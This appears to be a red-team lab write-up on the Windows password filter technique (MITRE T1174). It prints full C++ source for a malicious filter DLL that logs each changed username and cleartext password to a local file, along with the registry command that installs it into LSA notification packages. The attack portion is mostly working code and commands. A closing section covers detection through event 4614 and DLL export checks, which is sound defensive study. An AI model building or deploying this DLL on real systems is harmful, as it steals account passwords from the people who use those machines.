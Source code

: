 ```yaml
---
description: Credential Access
---
```


# T1174: Password Filter

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That, of course means, that the password can be intercepted and logged.

## Execution

Password filters are registered in registry and we can see them here:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endtab %}
{% endtabs %}

Or via regedit:

![](../../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported correctly in order for this technique to work, since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```

{% file src="../../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victim system:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../../.gitbook/assets/password-filter-filter-working.png)

## Observations

Windows event `4614` notifies about new packages loaded by the SAM:

![](../../.gitbook/assets/password-filter-log1.png)

Logging command line can also help in detecting this activity:

![](../../.gitbook/assets/password-filter-cmdline.png)

...especially, if the package has just been recently dropped to disk:

![](../../.gitbook/assets/password-filter-createdtime.png)

Also, it may be worth considering checking new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify`function:

![](../../.gitbook/assets/password-filter.png)

## References

{% embed url="http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1174" %}

